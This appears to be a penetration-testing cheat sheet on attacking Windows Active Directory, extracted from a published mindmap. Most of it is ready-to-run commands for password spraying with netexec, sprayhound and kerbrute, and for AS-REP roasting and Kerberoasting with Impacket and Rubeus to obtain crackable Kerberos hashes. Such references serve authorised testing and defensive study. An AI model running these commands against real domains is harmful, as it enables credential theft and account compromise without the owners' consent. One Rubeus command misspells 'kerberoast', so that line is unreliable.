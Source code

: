 Technical notes for  of Windows Active Directory environments, extracted from [orange-cyberdefense](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg).


---
## Password Spray

**Purpose:** test a small set of passwords across many accounts (or user\==password checks) while avoiding account lockouts; collect any cleartext credential successes.

### Get password policy (do this before testing)

- Avoid account lockouts and respect FGPP.

```bash
# Obtain password policy with netexec
nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol

# Default domain policy (via PowerShell or domain-aware tools)
Get-ADDefaultDomainPasswordPolicy

# LDAP (domain policy)
ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy

# Fine-grained (PSO) policies
ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso
Get-ADFineGrainedPasswordPolicy -Filter *
```


### user == password checks (lab/CTF)

```bash
# nxc: user list vs single password (user==pass via spray tool flags)
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success

# sprayhound user==pass mode
sprayhound -U <users.txt> -d <domain> -dc <dc_ip>   # add flags (--lower/--upper) as needed
```

### Common password spraying (few common passwords, many users)

- Typical passwords: SeasonYear!, Company123, Welcome123, etc.
```bash
# sprayhound with one password
sprayhound -U <users.txt> -p <password> -d <domain> -dc <dc_ip>

# kerbrute password spray
kerbrute passwordspray -d <domain> <users.txt> <password>

# nxc mass auth with continue-on-success
nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success
```


---

## ASREP Roast & Kerberoast (Valid-User, No-Password)

The purpose is obtaining crackable Kerberos material (AS-REP or TGS) for accounts without pre-auth or for SPN service accounts. Works with valid usernames (or user lists) without initial plaintext passwords.

### List ASREP-roastable users

- Query via BloodHound or LDAP attributes:
```bash
# BloodHound (Neo4j)
MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u
```

### AS-REP Roasting (accounts that do not require preauth)
- Request AS-REP and extract data for offline cracking.

```bash
# Impacket: GetNPUsers (hashcat format)
GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -outputfile output.txt

# Impacket via nxc (if supported)
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>

# Rubeus (Windows)
Rubeus.exe asreproast /format:hashcat
```

### Kerberoasting (SPN / service account TGS)

- Request TGS for SPN-bearing service accounts and crack offline.

```bash
# Impacket: GetUserSPNs (no-preauth / SPN request)
GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>/"

# Rubeus keberoast (Windows)
Rubeus.exe keberoast /domain:<domain> /dc:<dc_ip> /nopreauth:<asrep_user> /spns:<users.txt>

# Targeted tool example
targetedKerberoast.py -u <user> -p <password> -d <domain> -t "<SPN>" --dc-ip <dc_ip>
```
